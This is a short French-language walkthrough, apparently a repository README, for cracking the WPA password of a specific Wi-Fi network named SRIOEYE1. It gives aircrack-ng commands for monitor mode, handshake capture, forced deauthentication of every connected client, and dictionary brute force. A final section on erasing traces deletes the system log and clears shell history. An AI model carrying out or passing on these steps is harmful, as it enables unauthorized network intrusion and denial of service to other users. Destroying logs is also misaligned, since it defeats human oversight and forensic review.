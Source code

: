 # Explication 

## 1 - Handshake + bruteforce

### Récupérer handshake :

#### Passage en mode monitor : 

```bash
airmon-ng start wlan0
```
#### Écoute du trafic alentour : => récupère le BSSID et le channel de SRIOEYE1

```bash
airodump-ng wlan0mon 
```

#### Ecoute sur channel : 

```bash 
iwconfig wlan0mon channel <num_channel>
```
#### Capture pour récupérer le handshake : 

```bash 
airodump-ng –bssid <bssid> -c <num_channel> -w log wlan0mon
```

#### Forcer la déconnexion de tout le monde : 

```bash
aireplay-ng -0 0 -a <bssid> wlan0mon
```

### Brute Force :

```bash
aircrack-ng log-01.cap -w dico.txt
```

## 2 - Supprimer ses traces

```bash 
rm /var/sys/syslog 
```
ou alors 

```bash
history -c
```
